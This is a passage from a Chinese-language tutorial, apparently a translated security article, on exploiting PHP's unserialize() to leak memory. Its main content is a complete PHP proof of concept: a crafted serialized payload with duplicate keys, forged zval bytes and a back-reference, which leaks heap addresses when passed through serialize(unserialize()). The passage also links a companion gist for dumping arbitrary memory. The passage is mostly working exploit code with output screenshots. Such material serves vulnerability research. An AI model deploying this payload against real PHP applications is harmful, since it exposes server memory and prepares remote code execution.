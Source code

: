 source:[leakDataAtAddress](https://gist.github.com/tmm08a/5013927665891b0f0de2#file-leakdataataddress)

运行后的结果如下：

![enter image description here](http://drops.javaweb.org/uploads/images/065bd5ea75bb04c10642d56008c2f00aa6836f22.jpg)

好极了！我们现在已经可以dump出任意地址的数据了，当然也要知道地址才行，而这是不实际的。那么我们如何远程来提取地址呢？当然我们可以使用上一回中给出的代码来泄露地址，但是泄露出来的地址并未指向重要数据。有没有别的机制可以用来提取地址信息呢？

0x03 地址信息远程提取
=====

值得庆幸的是，确实有办法来提取地址信息！看下面的代码：

```
<?php
 
$data='O:8:"stdClass":6:{';
$data.='s:3:"123";a:40:{i:0;i:0;i:1;i:1;i:2;i:2;i:3;i:3;i:4;i:4;i:5;i:5;i:6;i:6;i:7;i:7;i:8;i:8;i:9;i:9;i:10;i:10;i:11;i:11;i:12;i:12;i:13;i:13;i:14;i:14;i:15;i:15;i:16;i:16;i:17;i:17;i:18;i:18;i:19;i:19;i:20;i:20;i:21;i:21;i:22;i:22;i:23;i:23;i:24;i:24;i:25;i:25;i:26;i:26;i:27;i:27;i:28;i:28;i:29;i:29;i:30;i:30;i:31;i:31;i:32;i:32;i:33;i:33;i:34;i:34;i:35;i:35;i:36;i:36;i:37;i:37;i:38;i:38;i:39;i:39;}';
$data.='s:3:"456";a:40:{i:0;i:0;i:1;i:1;i:2;i:2;i:3;i:3;i:4;i:4;i:5;i:5;i:6;i:6;i:7;i:7;i:8;i:8;i:9;i:9;i:10;i:10;i:11;i:11;i:12;i:12;i:13;i:13;i:14;i:14;i:15;i:15;i:16;i:16;i:17;i:17;i:18;i:18;i:19;i:19;i:20;i:20;i:21;i:21;i:22;i:22;i:23;i:23;i:24;i:24;i:25;i:25;i:26;i:26;i:27;i:27;i:28;i:28;i:29;i:29;i:30;i:30;i:31;i:31;i:32;i:32;i:33;i:33;i:34;i:34;i:35;i:35;i:36;i:36;i:37;i:37;i:38;i:38;i:39;i:39;}';
$data.='s:3:"456";i:1;';
$data.='s:3:"789";a:20:{i:100;O:8:"stdclass":0:{}i:0;S:17:"\41\41\41\41\00\04\00\00\00\01\01\00\06\00\BB\BC\CC";i:101;O:8:"stdclass":0:{}i:1;S:17:"\41\41\41\41\00\04\00\00\00\01\01\00\06\00\BB\BC\CC";i:102;O:8:"stdclass":0:{}i:2;S:17:"\41\41\41\41\00\04\00\00\00\01\01\00\06\00\BB\BC\CC";i:103;O:8:"stdclass":0:{}i:3;S:17:"\41\41\41\41\00\04\00\00\00\01\01\00\06\00\BB\BC\CC";i:104;O:8:"stdclass":0:{}i:4;S:17:"\41\41\41\41\00\04\00\00\00\01\01\00\06\00\BB\BC\CC";i:105;O:8:"stdclass":0:{}i:5;S:17:"\41\41\41\41\00\04\00\00\00\01\01\00\06\00\BB\BC\CC";i:106;O:8:"stdclass":0:{}i:6;S:17:"\41\41\41\41\00\04\00\00\00\01\01\00\06\00\BB\BC\CC";i:107;O:8:"stdclass":0:{}i:7;S:17:"\41\41\41\41\00\04\00\00\00\01\01\00\06\00\BB\BC\CC";i:108;O:8:"stdclass":0:{}i:8;S:17:"\41\41\41\41\00\04\00\00\00\01\01\00\06\00\BB\BC\CC";i:109;O:8:"stdclass":0:{}i:9;S:17:"\41\41\41\41\00\04\00\00\00\01\01\00\06\00\BB\BC\CC";}';
$data.='s:3:"789";i:0;';
$data.='i:1;r:56;}';
$data=serialize(unserialize($data));
 
var_dump($data);
?>

```

source:[leakLegitimateAddress](https://gist.github.com/tmm08a/5d99e869417f1c52b22d#file-leaklegitimateaddress)

运行后如下所示：

![enter image description here](http://drops.javaweb.org/uploads/images/650a8e0b1b9de9dba418c9cea921cacad5be870e.jpg)
